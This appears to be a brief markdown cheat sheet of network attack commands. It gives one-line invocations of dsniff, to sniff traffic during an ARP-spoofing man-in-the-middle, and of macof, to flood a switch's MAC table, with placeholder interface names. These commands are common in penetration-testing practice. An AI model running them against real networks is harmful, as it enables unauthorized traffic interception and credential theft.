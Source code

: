 # Sniff ARP Spoof MitM
```bash
sudo dsniff -i <Interface Name>
```

# Flood MAC
```bash
# Ensure that IP Forwarding is enabled.
sudo macof -i <Interface Name>
```
